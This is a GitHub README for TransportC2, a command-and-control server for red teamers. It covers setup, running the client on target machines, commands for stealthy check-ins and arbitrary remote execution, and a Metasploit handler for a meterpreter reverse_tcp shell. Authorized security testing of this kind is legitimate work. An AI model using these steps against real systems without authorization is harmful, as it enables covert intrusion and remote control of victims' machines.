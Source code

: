 # TransportC2

### Summary
TransportC2 is a command and control server that is able to run in the background as a service. This allows penetration testers and red teamers the ability to spend time gathering target machines, without being tied to an active session. Interact with clients through a private web interface that requires authentication, and allows administrators to add multiple users. All logins, commands, and responses are logged to provide a traceable point of reference.

Why "Transport"? TransportC2 is meant to be a long-term command and control server that allows users to direct payloads to other, shorter-term channels. This is exemplified by the built-in Metasploit payload, simply execute "msfpayload 192.168.1.1 4444" to open a meterpreter session on an infected client.


## Server
The TransportC2 server has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

*Modify server configurations prior to running the install script @ server/config.py*

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


## Client
As of now, TransportC2 has a PoC client written in Python 2/3. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 https_client.py 127.0.0.1 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:
```
stealth [int1] [int2]                   - Change client check-in intervals
msfpayload [ip] [port]                  - Launch Built in meterpreter payload
change_date [4-digit yr],[month],[day]  - Change max kill date on client
close                                   - Close / kill client
[command]                               - Execute payload on client
```

#### MSF Listener
Setup Metasploit to use built in client payload:
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set Lhost 192.168.1.1
set Lport 4444
execute
```


## Contributors 
Thanks to the following contributors that made this project possible:
* @darneymartin


## Screenshots
![user Login](server/AdminServer/static/img/login.png)
<br><br>
![Cmd_Panel](server/AdminServer/static/img/cmd.png)
